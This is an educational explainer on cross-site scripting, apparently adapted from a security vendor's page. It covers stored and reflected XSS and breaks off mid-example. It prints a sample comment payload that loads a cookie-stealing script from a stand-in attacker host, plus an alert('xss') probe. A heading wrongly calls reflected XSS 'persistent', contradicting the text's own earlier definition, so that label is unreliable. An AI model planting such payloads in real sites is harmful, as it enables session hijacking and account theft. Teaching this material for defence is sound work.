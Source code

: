 When a victim views an infected page on the website, the injected code executes in the victim's browser. Consequently, the attacker has bypassed the browser's ***same origin policy*** and is able to steal private information from a victim associated with the website.

The aim is to enable the perpetrator to ***steal their session cookies*** and hijack their accounts.

Cross site scripting attacks can be broken down into two types: ***stored*** and ***reflected***.

## Stored XSS

Also known as persistent XSS, is the more damaging of the two. It occurs when a malicious script is injected directly into a vulnerable web application.

![Image](https://www.incapsula.com/images/illustrations/web-app-security-mini-site/sorted-XSS.png)
### Example:

While browsing an e-commerce website, a perpetrator discovers a vulnerability that allows HTML tags to be embedded in the site's comments section. The embedded tags become a permanent feature of the page, causing the browser to parse them with the rest of the source code every time the page is opened.

The attacker adds the following comment:

```git
Great price for a great item! Read my review here <script src="http://hackersite.com/authstealer.js"> </script>.
```

From this point on, every time the page is accessed, the HTML tag in the comment will activate a JavaScript file, which is hosted on another site, and has the ability to steal visitors' session cookies.

Using the session cookie, the attacker can compromise the visitor’s account, granting him easy access to his personal information and credit card data. Meanwhile, the visitor, who may never have even scrolled down to the comments section, is not aware that the attack took place.

One of the most frequent targets are websites that allow users to share content, including blogs, social networks, video sharing platforms and message boards. Every time the infected page is viewed, the malicious script is transmitted to the victim's browser.



## Reflected (or persistent)

Reflected XSS involves the reflecting of a malicious script off of a web application, onto a user's browser. The script is embedded into a link, and is only activated once that link is clicked on.



![Image](https://www.incapsula.com/images/illustrations/web-app-security-mini-site/reflected-xss.png)


### Example


While visiting a forum site that requires users to log in to their account, a perpetrator executes this search query <script type='text/javascript'>alert('xss');</script> causing the following things to occur:
